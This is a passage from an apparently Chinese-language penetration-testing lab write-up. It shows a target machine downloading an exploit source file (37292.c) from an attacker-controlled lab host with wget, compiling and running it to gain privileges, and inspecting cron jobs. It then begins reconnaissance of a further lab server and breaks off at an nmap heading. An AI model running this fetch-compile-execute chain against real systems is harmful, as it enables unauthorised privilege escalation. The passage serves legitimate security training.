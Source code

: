 ![image-20220304225223820](https://gitee.com/xxb667/img/raw/master/img/image-20220304225223820.png)

## 下载

目标机器：执行下载，下载到tmp目录下

```shell
cd /tmp
wget http://192.168.81.131:1234/37292.c
cc 37292.c
./a.out
whoami
```

![image-20220305231007988](https://gitee.com/xxb667/img/raw/master/img/image-20220305231007988.png)

![image-20220305231242887](https://gitee.com/xxb667/img/raw/master/img/image-20220305231242887.png)

看下脚本内容:

```shell
crontab -l
cat /opt/lmao.py
```

![image-20220305231322937](https://gitee.com/xxb667/img/raw/master/img/image-20220305231322937.png)

![image-20220305231352026](https://gitee.com/xxb667/img/raw/master/img/image-20220305231352026.png)





# 第4次 服务器 192.168.1.19

# 1.信息搜集

## 1.1御剑扫描

```
192.168.1.19
```

扫描到1个文件和1个网页：

```
http://192.168.1.19/robots.txt
http://192.168.1.19/index.php
```

![image-20220307154535082](C:/Users/18393/AppData/Roaming/Typora/typora-user-images/image-20220307154535082.png)

## 1.2 nmap扫描
